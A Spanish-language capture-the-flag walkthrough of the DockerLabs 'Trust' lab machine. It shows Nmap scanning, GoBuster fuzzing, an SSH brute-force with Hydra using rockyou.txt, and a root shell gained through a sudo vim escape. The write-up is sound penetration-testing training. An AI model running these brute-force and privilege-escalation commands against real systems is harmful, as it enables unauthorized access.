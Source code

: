 # 🖥️ Máquina Trust  
- 🔓 Dificultad: **muy fácil**

## 🔌 Comprobamos la conexión:
Primero comprobaremos si tenemos conexión con la máquina Injection:

```bash
ping -c 2 172.18.0.2
```

📡 Este comando enviará solo 2 paquetes ping a la dirección IP designada y luego terminará.

```
PING 172.18.0.2 (172.18.0.2) 56(84) bytes of data.
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.070 ms
64 bytes from 172.18.0.2: icmp_seq=2 ttl=64 time=0.130 ms 

--- 172.18.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1039ms
rtt min/avg/max/mdev = 0.070/0.100/0.130/0.030 ms
```

---

## 🔍 Escaneo con Nmap
Ahora haremos un escaneo de puertos con la herramienta 🛠️ **Nmap**:

```bash
sudo nmap -p- -sS -sC --open -sV --min-rate=5000 -n -vvv -Pn 172.18.0.2 -oN /home/kali/Escritorio/dockerlabs_maquinas/maquinas_muy_faciles/maquina_trust_muyfacil/escaneo_trust.txt            
```

🧾 **Explicación de los parámetros del comando:**

- `-p-` Escanea **todos los 65535 puertos TCP**
- `-sS`  Escaneo **SYN sigiloso** 
- `-sC` Usa **scripts por defecto** 
- `--open` Muestra **solo puertos abiertos** 
- `-sV` Detecta la **versión de los servicios** 
- `--min-rate=5000` Velocidad mínima de **5000 paquetes/s** 
- `-n` Sin resolución DNS 
- `-vvv` Modo muy detallado 
- `-Pn` Sin ping al host antes de escanear 
- `-oN` Guarda el resultado en la ruta especificada 

---

## 📊 Resultado del escaneo

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%201.png)

🔍 Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.


🌐 Al ingresar la dirección IP `172.18.0.2` nos muestra la página por defecto de **Apache**.

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%202.png)

---

## 🚀 Ataque de Fuzzing con GoBuster

Lanzamos un ataque de fuzzing con la herramienta 🧰 **GoBuster**:

```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,sh,py
```

📘 **Explicación del comando:**

- `dir` → Modo de búsqueda de **directorios y archivos**  
- `-u http://172.18.0.2/` → URL del servidor web   
- `-w ...` → Diccionario de palabras   
- `-x html,php,sh,py` → Extensiones a probar 

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%203.png)

Descubrimos el archivo `/secret.php`, el cual revela información útil:

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%204.png)

---

## 🧑‍💻 Fuerza Bruta con Hydra

Con el posible usuario `mario`, lanzamos un ataque de fuerza bruta con **Hydra** 🐍:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 50
```

![captura-login](https://raw.githubusercontent.com/m4zpan1/DockerLabs_Resolutions/refs/heads/main/RECURSOS/trust%205%20.png)

🔐 Ahora tenemos las credenciales:

- 👤 **Usuario**: `mario`  
- 🔑 **Contraseña**: `chocolate`

Nos conectamos por SSH:

```bash
ssh mario@172.18.0.2
```

---

## ⬆️ Escalada de Privilegios

📜 Verificamos permisos sudo:

```bash
sudo -l
```

```bash
User mario may run the following commands on 59cb77302414:
    (ALL) /usr/bin/vim
```

⚡ Podemos usar `vim` para obtener una shell como root:

```bash
sudo vim -c ':!/bin/bash'
```

📟 Verificación:

```bash
root@59cb77302414:/home/mario# whoami
root
```

